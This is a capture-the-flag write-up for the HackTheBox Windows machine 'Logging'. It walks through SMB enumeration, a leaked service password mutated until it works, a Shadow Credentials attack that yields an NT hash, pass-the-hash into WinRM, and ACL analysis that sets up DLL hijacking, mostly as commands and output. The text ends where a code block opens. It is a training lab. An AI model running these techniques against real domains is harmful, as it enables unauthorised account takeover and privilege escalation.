





# HackTheBox

## Machine: Logging

* Target-IP: `10.129.62.234`
* OS: `Windows`
* Difficulty: `Medium`
* Initial Creds: `wallace.everette`:`Welcome2026@`

# 1. Reconnaissance

## 1.1 Port Scan

```bash
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-04-22 03:06:44Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Issuer: commonName=logging-DC01-CA/domainComponent=logging
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-04-17T03:20:01
| Not valid after:  2106-04-17T03:20:01
| MD5:     8572 96de c6fa 1e08 d694 2448 68cf d20b
| SHA-1:   8747 4415 e328 0940 a741 bace 327f a157 98d8 76e7
| SHA-256: f7c9 1a1d afd7 0b23 d3eb 802c bad8 aabf 6ad8 0a7b 1b56 3b26 3aea c6ed 4d1b 8b93
...[snip]...
|_ssl-date: 2026-04-22T03:07:41+00:00; +7h00m00s from scanner time.
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-22T03:07:40+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Issuer: commonName=logging-DC01-CA/domainComponent=logging
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-04-17T03:20:01
| Not valid after:  2106-04-17T03:20:01
| MD5:     8572 96de c6fa 1e08 d694 2448 68cf d20b
| SHA-1:   8747 4415 e328 0940 a741 bace 327f a157 98d8 76e7
| SHA-256: f7c9 1a1d afd7 0b23 d3eb 802c bad8 aabf 6ad8 0a7b 1b56 3b26 3aea c6ed 4d1b 8b93
...[snip]...
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-04-22T03:07:41+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Issuer: commonName=logging-DC01-CA/domainComponent=logging
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-04-17T03:20:01
| Not valid after:  2106-04-17T03:20:01
| MD5:     8572 96de c6fa 1e08 d694 2448 68cf d20b
| SHA-1:   8747 4415 e328 0940 a741 bace 327f a157 98d8 76e7
| SHA-256: f7c9 1a1d afd7 0b23 d3eb 802c bad8 aabf 6ad8 0a7b 1b56 3b26 3aea c6ed 4d1b 8b93
...[snip]...
3269/tcp open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: logging.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.logging.htb, DNS:logging.htb, DNS:logging
| Issuer: commonName=logging-DC01-CA/domainComponent=logging
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-04-17T03:20:01
| Not valid after:  2106-04-17T03:20:01
| MD5:     8572 96de c6fa 1e08 d694 2448 68cf d20b
| SHA-1:   8747 4415 e328 0940 a741 bace 327f a157 98d8 76e7
| SHA-256: f7c9 1a1d afd7 0b23 d3eb 802c bad8 aabf 6ad8 0a7b 1b56 3b26 3aea c6ed 4d1b 8b93
...[snip]...
|_ssl-date: 2026-04-22T03:07:40+00:00; +7h00m00s from scanner time.
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2026-04-22T03:07:33
|_  start_date: N/A
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 34259/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 9483/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 19554/udp): CLEAN (Timeout)
|   Check 4 (port 57507/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
```

### 1.1.1 Nmap Analysis

The comprehensive Nmap scan identifies the target as a Windows Domain Controller (`DC01.logging.htb`) with several critical takeaways for our attack path:

* **Core Infrastructure:** The presence of DNS (53), Kerberos (88), and LDAP (389/3268) confirms this is a Domain Controller. The web server (Port 80) running IIS 10.0 indicates this is likely Windows Server 2016, 2019, or 2022.
* **Active Directory Certificate Services (AD CS):** The SSL certificates exposed on the LDAPS ports (636/3269) reveal the Issuer as `logging-DC01-CA`. This strongly implies that AD CS is running directly on the Domain Controller, opening the door for potential ESCx certificate abuse pathways later in the engagement.
* **SMB Configuration:** Port 445 is open, but Nmap notes `Message signing enabled and required`. This means direct NTLM relaying to SMB (e.g., via `ntlmrelayx`) is dead in the water for this host.
* **Remote Access:** WinRM (Port 5985) is exposed. Once we compromise an account with the appropriate group memberships (e.g., Remote Management Users), we have a direct path to a PowerShell session.
* **Clock Skew Alert:** Nmap detected a significant clock skew of `+7h00m00s`. Kerberos is highly time-sensitive (typically failing if the desync is greater than 5 minutes). We will need to sync our attack machine's clock or utilize tools like `fake_time` to prevent `KRB_AP_ERR_SKEW` errors when requesting tickets.

**Host Routing:**
Before proceeding, the identified domain and hostnames must be added to our local `/etc/hosts` file to ensure proper DNS resolution, which is mandatory for Kerberos authentication.

```bash
# Generate hosts file
➜ nxc smb 10.129.62.234 --generate-hosts-file /tmp/hosts.txt
SMB         10.129.62.234  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)

# Update local DNS routing
➜ echo '10.129.62.234     DC01.logging.htb logging.htb DC01' | sudo tee -a /etc/hosts
10.129.62.234     DC01.logging.htb logging.htb DC01
```

---

# 2. SMB Enumeration

## 2.1 Share Discovery and Spidering

With the initial credentials (`wallace.everette`:`Welcome2026@`) provided for the engagement, the most efficient next step is to enumerate accessible file shares before executing heavier Active Directory mapping tools. We leverage NetExec's `spider_plus` module to quickly index readable shares and identify potentially sensitive files across the Domain Controller.

```Bash
# Enumerate and spider readable SMB shares
➜ nxc smb dc01.logging.htb \
    -u 'wallace.everette' -p 'Welcome2026@' \
    -M spider_plus
SMB         10.129.62.234   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.62.234   445    DC01             [+] logging.htb\wallace.everette:Welcome2026@
SPIDER_PLUS 10.129.62.234   445    DC01             [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.129.62.234   445    DC01             [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 10.129.62.234   445    DC01             [*]     STATS_FLAG: True
SPIDER_PLUS 10.129.62.234   445    DC01             [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.129.62.234   445    DC01             [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.129.62.234   445    DC01             [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.129.62.234   445    DC01             [*]  OUTPUT_FOLDER: /home/deus/.nxc/modules/nxc_spider_plus
SMB         10.129.62.234   445    DC01             [*] Enumerated shares
SMB         10.129.62.234   445    DC01             Share           Permissions     Remark
SMB         10.129.62.234   445    DC01             -----           -----------     ------
SMB         10.129.62.234   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.62.234   445    DC01             C$                              Default share
SMB         10.129.62.234   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.62.234   445    DC01             Logs            READ
SMB         10.129.62.234   445    DC01             NETLOGON        READ            Logon server share
SMB         10.129.62.234   445    DC01             SYSVOL          READ            Logon server share
SMB         10.129.62.234   445    DC01             WSUSTemp                        A network share used by Local Publishing from a Remote WSUS Console Instance.
SPIDER_PLUS 10.129.62.234   445    DC01             [+] Saved share-file metadata to "/home/deus/.nxc/modules/nxc_spider_plus/10.129.62.234.json".
SPIDER_PLUS 10.129.62.234   445    DC01             [*] SMB Shares:           7 (ADMIN$, C$, IPC$, Logs, NETLOGON, SYSVOL, WSUSTemp)
SPIDER_PLUS 10.129.62.234   445    DC01             [*] SMB Readable Shares:  4 (IPC$, Logs, NETLOGON, SYSVOL)
SPIDER_PLUS 10.129.62.234   445    DC01             [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.129.62.234   445    DC01             [*] Total folders found:  19
SPIDER_PLUS 10.129.62.234   445    DC01             [*] Total files found:    9
SPIDER_PLUS 10.129.62.234   445    DC01             [*] File size average:    2.2 KB
SPIDER_PLUS 10.129.62.234   445    DC01             [*] File size min:        22 B
SPIDER_PLUS 10.129.62.234   445    DC01             [*] File size max:        8.29 KB
```

### 2.1.1 SMB Findings

Alongside the standard default shares (`IPC$`, `NETLOGON`, `SYSVOL`), the enumeration reveals a non-default, readable share named **`Logs`**. Given the machine's name and this finding, inspecting the contents of this share is our immediate next step.

## 2.2 Share Inspection and Credential Discovery

After identifying the `Logs` share via `spider_plus`, we review the generated JSON output to determine the contents.

```JSON
{
    "Logs": {
        "Audit_Heartbeat.log": {
            "size": "1.26 KB"
        },
        "IdentitySync_Trace_20260219.log": {
            "size": "8.29 KB"
        },
        "Service_State.log": {
            "size": "468 B"
        },
        "TaskMonitor.log": {
            "size": "1.14 KB"
        }
    }
}
```

We utilize `smbclient` to connect to the share and recursively download all files for offline analysis.

```Bash
# Download all files from the Logs share
➜ smbclient //logging.htb/Logs \
    -U 'LOGGING/wallace.everette%Welcome2026@' \
    -c 'recurse ON; prompt OFF; mget *'
```

### 2.2.1 Log Analysis

Once the files are downloaded locally, we grep the directory for sensitive keywords such as "pass", "cred", or "key".

```Bash
# Search for potential credentials
➜ grep -ir pass Logs
Logs/IdentitySync_Trace_20260219.log:[2026-02-09 03:00:03.125] [PID:4102] [Thread:04] VERBOSE - ConnectionContext Dump: { Domain: "logging.htb", Server: "DC01", SSL: "False", BindUser: "LOGGING\svc_recovery", BindPass: "Em3rg3ncyPa$$2025", Timeout: 30 }
```

The search yields a cleartext credential in the `IdentitySync_Trace_20260219.log` file for the user `svc_recovery` (`Em3rg3ncyPa$$2025`). However, reading further down in the same log file reveals a critical caveat: entries dated ten days later show the synchronization task failing with `LDAP_INVALID_CREDENTIALS` for this exact account.

**Analysis:**

While the log exposes a highly complex password, the subsequent authentication failures indicate this password is no longer active. Rather than discarding it, we will use this invalid password as a base string to generate a targeted mutation list, anticipating that the user (or administrator) simply iterated the year or altered a minor character during a forced password rotation.

## 2.6 Password Mutation & Credential Validation

With the base password (`Em3rg3ncyPa$$2025`) and the knowledge that it is invalid, we test it against the Domain Controller to observe the specific error responses.

First, we attempt standard NTLM authentication using NetExec:

```Bash
# Initial validation attempt (NTLM)
➜ nxc smb dc01.logging.htb \
    -u 'svc_recovery' -p 'Em3rg3ncyPa$$2025'
SMB         10.129.62.234   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.62.234   445    DC01             [-] logging.htb\svc_recovery:Em3rg3ncyPa$$2025 STATUS_ACCOUNT_RESTRICTION
```

The `STATUS_ACCOUNT_RESTRICTION` error indicates that the account is prevented from logging in under the current context—often because NTLM authentication is explicitly disabled for the account (or domain-wide), forcing the use of Kerberos.

We append the `-k` flag to force Kerberos authentication:

```Bash
# Force Kerberos authentication
➜ nxc smb dc01.logging.htb \
    -u 'svc_recovery' -p 'Em3rg3ncyPa$$2025' -k
SMB         dc01.logging.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc01.logging.htb 445    DC01             [-] logging.htb\svc_recovery:Em3rg3ncyPa$$2025 KDC_ERR_PREAUTH_FAILED
```

The `KDC_ERR_PREAUTH_FAILED` error definitively confirms the password is wrong, aligning with the `LDAP_INVALID_CREDENTIALS` error found in the log file.

### 2.6.1 Manual Mutation & Clock Skew Evasion

Assuming a standard password rotation policy, we manually mutate the year in the password from `2025` to `2026` and test again via Kerberos:

```Bash
# Test mutated password
➜ nxc smb dc01.logging.htb \
    -u 'svc_recovery' -p 'Em3rg3ncyPa$$2026' -k
SMB         dc01.logging.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc01.logging.htb 445    DC01             [-] logging.htb\svc_recovery:Em3rg3ncyPa$$2026 KRB_AP_ERR_SKEW
```

The error changes to `KRB_AP_ERR_SKEW`. This is an excellent indicator: the Domain Controller did *not* reject the password (pre-authentication succeeded), but it rejected the ticket request because our local machine's clock is too far out of sync with the Domain Controller. (Recall the `+7h00m00s` clock skew identified during our initial Nmap scan).

To resolve this without altering our host system's time, we configure our local Kerberos environment and utilize `faketime` to dynamically synchronize the clock offset for the command execution or use classic method via `ntpdate`.

```Bash
# Generate local krb5.conf for proper routing
➜ nxc smb dc01.logging.htb --generate-krb5-file /tmp/krb5.conf
➜ cat /tmp/krb5.conf | sudo tee /etc/krb5.conf

# Execute NetExec wrapped in fake_time
➜ fake_time dc01.logging.htb \
nxc smb dc01.logging.htb \
    -u 'svc_recovery' -p 'Em3rg3ncyPa$$2026' -k
...[snip]..

SMB         dc01.logging.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:logging.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc01.logging.htb 445    DC01             [+] logging.htb\svc_recovery:Em3rg3ncyPa$$2026
```

**Result:** The mutation was successful. We now have a second set of valid domain credentials.

## 2.7 Kerberos Ticket Generation

To interact securely with LDAP and execute the attack without triggering NTLM or pre-authentication restrictions, we first request a TGT for `svc_recovery`.

Due to the extreme clock skew, we wrap `getTGT.py` with `fake_time` to align our ticket timestamps with the Domain Controller.

```Bash
# Request a TGT for svc_recovery
➜ fake_time dc01.logging.htb \
getTGT.py 'logging.htb/svc_recovery:Em3rg3ncyPa$$2026'

...[snip]...
Impacket v0.14.0.dev0+20260420.123356.9afc09b9 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in svc_recovery.ccache

# Verify the cached ticket
➜ klist svc_recovery.ccache
Ticket cache: FILE:svc_recovery.ccache
Default principal: svc_recovery@LOGGING.HTB

Valid starting       Expires              Service principal
04/22/2026 09:40:13  04/22/2026 13:40:13  krbtgt/LOGGING.HTB@LOGGING.HTB
        renew until 04/22/2026 13:40:13
```

## 2.8 Targeted BloodHound Enumeration

As noted during our initial enumeration, the BloodHound data collected for our foothold user (`wallace.everette`) yielded no direct privilege escalation paths, forcing us to pivot to SMB share analysis. Now, with a second set of valid domain credentials (`svc_recovery`:`Em3rg3ncyPa$$2026`) confirmed, we must re-evaluate the Active Directory landscape from this new context.

```Bash
# Collect BloodHound data as svc_recovery
➜ fake_time dc01.logging.htb \
env KRB5CCNAME=svc_recovery.ccache \
rusthound-ce \
    -d logging.htb -f dc01.logging.htb -k \
    --zip -c All
```

### 2.7.1 Privilege Analysis: svc_recovery

Ingesting the updated data and setting `svc_recovery` as our starting node in BloodHound reveals a significant shift in our domain privileges. Unlike our initial foothold, this account possesses a direct, exploitable ACL relationship.

<p align="center">
  
</p>

**Analysis of Findings:**
The graph clearly shows that `svc_recovery` holds **GenericWrite** privileges over the `MSA_HEALTH$` account.

`GenericWrite` is a powerful primitive. It grants us the ability to update any non-protected attribute on the target object. For a user or service account like `MSA_HEALTH$`, this immediately opens up a few high-percentage attack paths:
1. **Targeted Kerberoasting:** We can write a dummy Service Principal Name (SPN) to the `MSA_HEALTH$` account and then request its TGS ticket to crack offline.
2. **Shadow Credentials:** If the domain controller supports PKINIT, we can write to the `msDS-KeyCredentialLink` attribute to generate a certificate for the account and authenticate directly.
3. **Password Reset:** Depending on the exact environmental constraints, `GenericWrite` often allows forcing a password reset on the target object.

---

# 3. Lateral Movement: Shadow Credentials Abuse

With **GenericWrite** privileges over `MSA_HEALTH$`, we have the ability to modify its Active Directory object properties. Since the domain controller supports PKINIT (evidenced by the presence of AD CS), the most stealthy and direct path to compromise this account is a **Shadow Credentials** attack.

By writing a custom certificate to the `msDS-KeyCredentialLink` attribute of `MSA_HEALTH$`, we can trick the Key Distribution Center (KDC) into issuing a Kerberos Ticket Granting Ticket (TGT) for the account using our attacker-controlled asymmetric key pair.

## 3.1 Executing the Attack (bloodyAD)

With a valid TGT cached, we utilize `bloodyAD` to orchestrate the Shadow Credentials attack.

We use the `env KRB5CCNAME=svc_recovery.ccache` inline variable to force `bloodyAD` to authenticate via our cached Kerberos ticket (`-k`). The tool automatically generates an RSA key pair, writes the public key to the target's `msDS-KeyCredentialLink` attribute, and performs the PKINIT authentication to retrieve the target's TGT and NT hash.

```Bash
# Inject Shadow Credentials and retrieve the NT hash
➜ env KRB5CCNAME=svc_recovery.ccache \
fake_time dc01.logging.htb \
bloodyAD -H dc01.logging.htb -d logging.htb \
    -u 'svc_recovery' -k \
    add shadowCredentials 'msa_health$'

...[snip]...
[+] KeyCredential generated with following sha256 of RSA key: 8068eb20e242831db3046e20707b7bf5dfb663d2521d7db8be5e6f05498a2cfd
[+] TGT stored in ccache file msa_health_vW.ccache

NT: 603fc24ee01a9409f83c9d1d701485c5
```

**Result:** The attack successfully compromises the `MSA_HEALTH$` account, yielding its NT Hash (`603fc24ee01a9409f83c9d1d701485c5`) and a valid TGT (`msa_health_vW.ccache`), granting us full access to its privileges.

---

# 4. Initial Access (DC01)

## 4.1 Pass-the-Hash via WinRM

With the NT hash for the `msa_health$` service account successfully extracted, we utilize `evil-winrm` to perform a Pass-the-Hash (PtH) attack. This bypasses the need for the cleartext password and provides us with an interactive PowerShell session on the Domain Controller.

```Bash
# Authenticate via WinRM using the NT hash
➜ evil_winrmexec logging.htb/'msa_health$'@dc01.logging.htb \
        -hashes :603fc24ee01a9409f83c9d1d701485c5

...[snip]...

PS C:\Users\msa_health$\Documents> whoami; hostname
logging\msa_health$
DC01
```

### 4.1.1 Environment Reconnaissance

Upon gaining access, we perform basic situational awareness. The `msa_health$` account possesses standard service privileges but lacks administrative rights.

```powershell
PS C:\Users\msa_health$\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

A survey of the `C:\Users` directory reveals the active profiles on the system. Notably, the user flag is not present in the service account's directory, and the target users `toby.brynleigh` (Domain Admin) and `jaylee.clifton` have existing profiles.

```powershell
PS C:\Users\msa_health$\Documents> dir c:\users

    Directory: C:\users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        4/16/2026   8:30 PM                Administrator
d-----        4/16/2026   4:41 PM                jaylee.clifton
d-----        4/17/2026   8:33 AM                msa_health$
d-----        4/17/2026   1:47 PM                toby.brynleigh
```

## 4.2 Pivot Analysis: Hunting Jaylee

Based on the updated BloodHound data, `toby.brynleigh` is a member of high-tier administrative groups, but we currently lack a direct path to compromise that account. Our immediate objective shifts to **jaylee.clifton**.

Since we are already on the DC as a service account, we will investigate local files, scheduled tasks, or running processes associated with Jaylee to find our next set of credentials or a path for lateral movement.

<p align="center">
  
</p>


## 4.3 Automated Task and Service Analysis

Local enumeration via WinPEAS identified a non-standard monitoring and update suite running on the Domain Controller. Given the high logon count for `jaylee.clifton`, this infrastructure is the primary mechanism for privilege escalation.

### 4.3.1 Scheduled Task: UpdateChecker Agent

A scheduled task is configured to run a custom binary. This task is owned by the **logging\Administrator** account, providing a high-privileged execution context.

* **Task Name:** UpdateChecker Agent
* **Binary Path:** `C:\Program Files\UpdateMonitor\UpdateMonitor.exe`
* **Execution Interval:** Repeats every **3 minutes** indefinitely.

---

# 5. UpdateMonitor DLL Hijacking

## 5.1 Initial Enumeration & Permissions Analysis

During the enumeration of the `C:\Program Files\UpdateMonitor` directory, we observed significant permission misconfigurations. Using `icacls`, we verified that the **logging\IT** group possesses full control over the application directory and the service binary itself.

```powershell
PS C:\Temp> icacls "C:\Program Files\UpdateMonitor"
C:\Program Files\UpdateMonitor logging\IT:(OI)(CI)(F)
                               NT AUTHORITY\SYSTEM:(I)(F)
                               BUILTIN\Administrators:(I)(F)
                               BUILTIN\Users:(I)(RX)

PS C:\Temp> icacls "C:\Program Files\UpdateMonitor\UpdateMonitor.exe"
C:\Program Files\UpdateMonitor\UpdateMonitor.exe logging\IT:(I)(F)
                                                 NT AUTHORITY\SYSTEM:(I)(F)
                                                 BUILTIN\Administrators:(I)(F)
                                                 BUILTIN\Users:(I)(RX)
```

**Technical Analysis:**
The `(OI)(CI)(F)` flags on the parent directory indicate **Object Inherit**, **Container Inherit**, and **Full Control**. This means any subdirectories created (such as a `\bin\` folder) will also grant Full Control to the **IT group**. While our current `msa_health$` account is a standard user, this represents a direct escalation path to **SYSTEM** once we pivot to a member of the IT group, such as `jaylee.clifton`.

## 5.2 Binary Analysis: DLL Hijacking Discovery

To identify the exact exploitation vector within the writable directory, `UpdateMonitor.exe` was analyzed using **dnSpyEx**. The decompiled C# code reveals that the application constructs a search path for a specific native dependency.

### 5.2.1 Path Construction Logic



The `Main` method defines the following paths for loading:

```csharp
